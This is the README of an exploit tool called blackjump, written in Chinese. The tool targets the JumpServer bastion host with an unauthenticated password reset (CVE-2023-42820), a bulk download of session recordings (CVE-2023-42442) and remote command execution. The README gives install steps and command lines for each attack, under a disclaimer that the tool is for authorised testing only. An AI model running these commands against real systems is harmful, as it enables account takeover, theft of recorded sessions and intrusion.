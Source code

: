 ## blackjump

[中文](https://github.com/tarimoe/blackjump/) | [English](https://github.com/tarimoe/blackjump/blob/main/README_en.md)

> 免责声明: 本工具仅面向合法授权的企业安全建设行为，在使用本工具进行检测时，<b>您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标使用</b>。
> 
> 如您在使用本工具的过程中存在任何非法行为，<b>您需自行承担相应后果，我们将不承担任何法律及连带责任</b>。


JumpServer 堡垒机综合漏洞利用
- [x] 未授权任意用户密码重置 (CVE-2023-42820)
- [x] 未授权一键下载所有操作录像 (CVE-2023-42442)
- [x] 未授权任意命令执行漏洞 (RCE 2021)

## 安装
```bash
python3 -m pip install -r requirements.txt
```

## 使用指南
+ CVE-2023-42820: 如果知道目标的用户名和邮箱可以指定 `--user` 和 `--email` 参数
```bash
python3 blackjump.py reset https://vulerability
```
![img.png](img/img.png)

+ CVE-2023-42442: `output/` 目录下的 `<uuid4>.tar` 文件扔进 <u>[jumpserver播放器播放即可](https://github.com/jumpserver/VideoPlayer/releases)</u> 
```bash
python3 blackjump.py dump https://vulerability
```
![img_1.png](img/img_1.png)e

+ RCE
```shell
python3 blackjump.py rce http(s)://vulerability
```
![img.png](img/img_2.png)

+ 帮助
```bash
python3 blackjump.py {reset,dump,rce} -h
```

## 参考
1. https://github.com/Veraxy00/Jumpserver-EXP (在此基础上优化部分情况命令执行失败或获取不到资产问题)